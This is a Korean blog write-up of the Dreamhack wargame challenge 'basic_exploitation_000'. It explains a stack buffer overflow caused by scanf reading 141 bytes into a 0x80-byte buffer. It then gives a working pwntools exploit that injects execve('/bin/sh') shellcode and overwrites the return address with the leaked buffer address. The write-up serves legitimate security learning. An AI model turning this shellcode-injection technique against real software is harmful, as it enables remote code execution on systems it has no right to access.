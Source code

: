 ```yaml
---
title: "[ Dreamhack ] basic_exploitation_000"
description: " 문제 분석  문제 풀이  추가내용 "
date: 2023-03-09T06:20:56.591Z
categories: [Wargame, Dreamhack]
tags: [dreamhack,pwn]
---
```

![](/images/5802889a-ec51-4343-9f48-dc9bf1cc9924-image.png)

<br>

<br>

### **문제 분석**

---

환경정보를 보면 어떤 보호기법도 적용되지 않고 있다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```
문제 소스코드를 보면 buf는 0x80byte 할당되었지만 scanf로 141byte를 입력받고 있다.
여기서 BOF를 발생시킬 수 있다.

<br>

<br>

### **문제 풀이**

---

![](/images/ae073099-d117-485e-9d76-2fafa2776a8b-image.png)

gdb로 분석해보면 scanf로 입력받은 데이터는 ebp-0x80에 위치하게 된다.
따라서 다음과 같이 payload를 작성할 수 있다.
```shellcode + dummy(0x80byte-len(shellcode)) + sfp(4byte) + return address```

<br>

아래처럼 exploit코드를 작성하면 flag를 얻을 수 있다.
```python
from pwn import *

p = remote('host3.dreamhack.games', 23815)

p.recvuntil('buf = (')

buf = int(p.recv(10),16)

shellcode = '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'

payload = ''
payload = shellcode
payload += 'A'*(0x80-len(shellcode)) + 'BBBB'
payload += p32(buf)

p.sendline(payload)

p.interactive()
```

![](/images/79fa058d-0db0-4613-9c66-47161f9bea13-image.png)

<br>

<br>

### **추가내용**

---

scanf는 특정 문자(\x09, \x0a, \x0b, \x0c, \x0d, \x20)를 입력받지 못한다.
따라서 자주 사용하는 25byte 쉘코드가 아니라 해당 문자가 들어있지 않은 쉘코드를 사용해야한다.
